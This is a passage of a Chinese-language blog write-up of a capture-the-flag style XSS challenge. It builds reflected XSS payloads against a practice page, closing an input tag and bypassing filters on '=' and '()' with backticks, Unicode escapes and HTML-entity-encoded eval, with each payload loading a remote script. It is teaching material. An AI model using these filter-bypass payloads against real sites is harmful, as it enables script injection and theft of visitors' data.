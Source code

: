 根据页面的源代码，自己构造的 XSS 攻击代码，首先应当将原本的 `<input>` 标签闭合，即在 `123123` 后面跟上 `">`：  
![在这里插入图片描述](https://img-
blog.csdnimg.cn/f05a58a2a6944be4bd1aad3cc6f8812e.png?x-oss-
process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQzMzMxNDg4,size_16,color_FFFFFF,t_70)  
从源代码中可以看到，自己输入的 `">` 成功将标签闭合，原本存在的 `">` 被孤立了出来：  
![在这里插入图片描述](https://img-blog.csdnimg.cn/8b537a89142542f88d3d84805c845a18.png)  
此时我们就可以在后面跟上我们自己的 JS 代码进行 XSS 攻击了：

    
    
    "><script>document.write(<script src="http://xcao.vip/xss/alert.js"></script>)</script>
    

但是别忘了题目的过滤条件，在这里等号 `=` 和小括号 `()` 不起作用。

接下来应当思考怎么绕过。

通过查找资料我们得知，可以 **用反引号代替小括号实现绕过** 。要绕过等号 `=` 的过滤，可以 **将`document.write()` 中的内容进行
Unicode 编码**，即：

    
    
    "><script>document.write`\u003c\u0073\u0063\u0072\u0069\u0070\u0074\u0020\u0073\u0072\u0063\u003d\u0022\u0068\u0074\u0074\u0070\u003a\u002f\u002f\u0078\u0063\u0061\u006f\u002e\u0076\u0069\u0070\u002f\u0078\u0073\u0073\u002f\u0061\u006c\u0065\u0072\u0074\u002e\u006a\u0073\u0022\u003e\u003c\u002f\u0073\u0063\u0072\u0069\u0070\u0074\u003e`</script>
    

提交内容，成功绕过：  
![在这里插入图片描述](https://img-
blog.csdnimg.cn/f7f152281e5147feba92228ae8e7bc6f.png?x-oss-
process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQzMzMxNDg4,size_16,color_FFFFFF,t_70)  
完整 Payload：

    
    
    http://xcao.vip/test/xss1.php?data=123123"><script>document.write`\u003c\u0073\u0063\u0072\u0069\u0070\u0074\u0020\u0073\u0072\u0063\u003d\u0022\u0068\u0074\u0074\u0070\u003a\u002f\u002f\u0078\u0063\u0061\u006f\u002e\u0076\u0069\u0070\u002f\u0078\u0073\u0073\u002f\u0061\u006c\u0065\u0072\u0074\u002e\u006a\u0073\u0022\u003e\u003c\u002f\u0073\u0063\u0072\u0069\u0070\u0074\u003e`</script>
    

## 方法二

题目作者给出的一种方法：

    
    
    http://xcao.vip/test/xss1.php?data=%22%3E%3Csvg%3E%3Cscript%3E%26%23x65%3B%26%23x76%3B%26%23x61%3B%26%23x6c%3B%26%23x28%3B%26%23x6c%3B%26%23x6f%3B%26%23x63%3B%26%23x61%3B%26%23x74%3B%26%23x69%3B%26%23x6f%3B%26%23x6e%3B%26%23x2e%3B%26%23x68%3B%26%23x61%3B%26%23x73%3B%26%23x68%3B%26%23x2e%3B%26%23x73%3B%26%23x6c%3B%26%23x69%3B%26%23x63%3B%26%23x65%3B%26%23x28%3B%26%23x31%3B%26%23x29%3B%26%23x29%3B%3C/script%3E%3C/svg%3E#with(document)body.appendChild(createElement('script')).src='http://xcao.vip/test/alert.js'
    

我们来分析这里用了些什么方法。
